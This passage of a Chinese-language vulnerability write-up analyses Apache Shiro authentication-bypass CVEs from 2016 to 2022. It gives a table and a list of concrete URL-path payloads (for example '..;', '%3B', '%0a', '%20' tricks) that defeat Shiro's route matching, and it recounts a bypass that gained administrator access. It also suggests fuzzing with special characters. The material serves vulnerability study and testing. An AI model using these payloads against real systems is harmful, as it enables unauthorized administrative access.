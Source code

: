 成功获取到登录功能，成功绕过，登录后成功获取到管理员权限

![]()

## 分析

  

### 案例一分析：

#### 基于开发的角度探究权限限制的路由:

这里主要探上面的案例，一口气将完所有的java的权限绕过，内容有点多

  

上面的系统使用的shiro框架，shiro的权限绕过的漏洞：

漏洞编号| CVE-2020-1957| CVE-2020-11989| CVE-2020-13933| CVE-2020-17523|
CVE-2022-32532  
---|---|---|---|---|---  
影响版本| Apache Shiro < 1.5.1| Apache Shiro < 1.5.2| Apache Shiro < 1.6| Apache
Shiro < 1.7.1| Apache Shiro ≤ 1.9.0  
payload| /xxx/..;/admin/| /;/test/admin/page| /admin/;page| /xxxx/*|
/admin/a%0any  
Shrio 处理结果| /xxxx/..| /| /admin/| /xxxx/| /admin/a%0any  
SpringBoot 处理结果| /admin/| /admin/page| /admin/;page| /xxxx/*| /admin/any  
  

具体利用的payload：

    
    
    CVE-2016-6802在访问路径前加上/任意目录名/../，即可绕过访问  
    CVE-2020-1957/demo/..;/admin/index其中demo为授权路径，admin/index为鉴权路径 /.;/hello/aaaa  
    CVE-2020-11989admin/page%252fABCDEFG其中admin/page为鉴权路径，ABCDEFG为随意字符串 /hello/a%25%32%66a /;/test/hello/aaa  
    CVE-2020-13933admin/%3BABCDEFG，其中admin为鉴权路径，ABCDEFG为随意字符串  
    CVE-2020-17510admin/%2e  
    CVE-2020-17523admin/%20，其中admin为鉴权路径  
    CVE-2022-32532特定条件下的漏洞利用：当shiro使用了RegExPatternMatcher进行路由匹配时，由于Java的正则Pattern.matches解析.默认是不匹配\r或者\n的，因此当path中带有%0a时可绕过正则匹配 /permit/a%0any  
    

把上面的弄清楚后，大概就可以整明白shiro的漏洞，基本上都是处理字符导致的。

  

除此之外也给开发写的匹配关系有关，如上面案例的匹配即有可能即是设置的即是匹配/api/*

(具体的代码我没看)

  

而我们利用/api%20/导致shiro匹配不到，而路由取却取的到/api/* 进而导致权限绕过。

  

由此可见对于shiro框架的时候，或者如swagger这些的时候，可以巧用特殊字符去进行fuzz绕过权限。

  
  